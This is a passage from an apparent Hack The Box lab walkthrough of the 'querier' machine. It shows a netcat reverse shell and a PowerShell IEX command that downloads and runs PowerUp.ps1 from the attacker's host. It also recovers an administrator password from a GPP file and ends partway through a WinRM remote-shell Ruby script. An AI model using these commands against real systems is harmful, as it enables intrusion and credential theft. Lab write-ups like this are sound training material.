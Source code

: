 ```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.125] 49713
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
querier\mssql-svc

C:\Windows\system32>type c:\users\mssql-svc\desktop\user.txt
type c:\users\mssql-svc\desktop\user.txt
c37b41b...
```

### Privesc

I used Powersploit's PowerUp module to do some recon on the box and found the administrator credentials stored in the Group Policy Preference (GPP) xml file. As explained on many other blogs, that file is AES encrypted but the key was leaked on MSDN a couple of years ago so PowerUp is able to decrypt it automatically.

```
C:\Windows\system32>powershell

PS C:\Windows\system32> IEX (New-Object Net.Webclient).downloadstring("http://10.10.14.23/PowerUp.ps1")
PS C:\Windows\system32> invoke-allchecks
[*] Checking for cached Group Policy Preferences .xml files....


Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
            C:\Windows\system32>powershell
```

Password: `MyUnclesAreMarioAndLuigi!!1!`

Using Alamot's WinRM ruby script, I was able to log in as `administrator`:

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'http://10.10.10.125:5985/wsman',
  user: 'querier\administrator',
  password: 'MyUnclesAreMarioAndLuigi!!1!',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
```